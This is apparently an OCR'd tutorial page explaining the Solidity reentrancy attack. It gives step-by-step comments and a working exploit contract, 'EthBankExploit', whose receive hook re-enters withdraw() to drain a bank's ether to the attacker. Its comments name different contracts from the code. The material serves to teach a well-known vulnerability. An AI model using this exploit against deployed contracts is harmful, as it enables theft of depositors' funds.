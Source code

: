 *Reentracy (a.k.a. recursive call attack) exploit allows B to call back into A before A finishes execution.*

### Code sample

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

/*
EtherStore is a contract where you can deposit and withdraw ETH.
This contract is vulnerable to re-entrancy attack.
Let's see why.

1. Deploy EtherStore
2. Deposit 1 Ether each from Account 1 (Alice) and Account 2 (Bob) into EtherStore
3. Deploy Attack with address of EtherStore
4. Call Attack.attack sending 1 ether (using Account 3 (Eve)).
   You will get 3 Ethers back (2 Ether stolen from Alice and Bob,
   plus 1 Ether sent from this contract).

What happened?
Attack was able to call EtherStore.withdraw multiple times before
EtherStore.withdraw finished executing.

Here is how the functions were called
- Attack.attack
- EtherStore.deposit
- EtherStore.withdraw
- Attack fallback (receives 1 Ether)
- EtherStore.withdraw
- Attack.fallback (receives 1 Ether)
- EtherStore.withdraw
- Attack fallback (receives 1 Ether)
*/

// SPDX-License-Identifier: MIT
pragma solidity 0.8.24;

interface IEthBank {
    function deposit() external payable;
    function withdraw() external payable;
}

contract EthBankExploit {
    IEthBank public bank;

    constructor(address _bank) {
        bank = IEthBank(_bank);
    }

    receive() external payable {
        if (address(bank).balance >= 1 ether) {
            bank.withdraw();
        }
    }

    function pwn() external payable {
        bank.deposit{value: 1 ether}();
        bank.withdraw();
        payable(msg.sender).transfer(address(this).balance);
    }
}

```